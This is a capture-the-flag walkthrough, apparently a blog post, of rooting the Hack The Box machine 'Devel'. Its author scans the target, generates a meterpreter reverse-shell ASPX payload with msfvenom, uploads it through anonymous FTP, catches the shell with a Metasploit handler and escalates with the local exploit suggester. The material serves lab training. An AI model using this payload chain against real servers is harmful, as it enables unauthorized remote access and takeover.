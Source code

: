 ```yaml
---
layout: post
title: Devel walktrough
subtitle: HTB MACHINE
tags: [HTB]
---
```

Hello guys it's Shin today I'm going to guide you on how to root Devel this is one of the easiest windows machine in Hack The Box. In this case I might be using ftp to upload a shell that is made from msf, and from there I will be scanning for any known exploits for the machine so let's get started.
# Recon 
## nmap
``` 
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
In this case we have 2 ports open which is `ftp` and `http` and I noticed that in ftp we can login as Anonymous.

# FTP-Port 21
There aren't that much to enumerate and I found out that the directory you are in when you logged in through ftp is the web directory of the website.
# HTTP-Port 80
It's just the default page of IIS7:
![](/img/devel-writeup/screenshot1.png)

I tried doing directory bruteforcing using gobuster but it didn't give me much info that could help me root this machine.

# Foothold
I did some research about IIS7 and found out that IIS7 uses aspx so in this case I'm making a shell through msfvenom as aspx as a extension:
``` 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.5 lport=1337 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2790 bytes
Saved as: shell.aspx
```
Now I'm going to put it in the machine using ftp:
```
ftp> put shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2826 bytes sent in 0.000171 seconds (15.8 Mbytes/s)
```
Now time to execute our shell through a web browser as shown below in the image: 
![](/img/devel-writeup/screenshot2.png)

And run our msf handler:
```
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) set lhost tun0
msf5 exploit(multi/handler) set lport 1337
msf5 exploit(multi/handler) run
```
Then I run "Multi recon exploit suggester" It's a kind of msfconsole module that tries to gather information about the machine and suggest you exploits.

![](/img/devel-writeup/screensho4.png)
```
background 
use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 2
msf5 post(multi/recon/local_exploit_suggester) > run
```
![](/img/devel-writeup/screenshot3.png)

Yikes! That's a lot of exploits to try so I tried the first exploit but it didn't work for me so I used the 2nd and it WORKED GREAT!
## BAM!

![](/img/devel-writeup/screenshot5.png)

Now it's time to grab root!

![](/img/devel-writeup/screenshot7.png)

Tadah!

<center><img src="/img/devel-writeup/joven.gif"/></center>




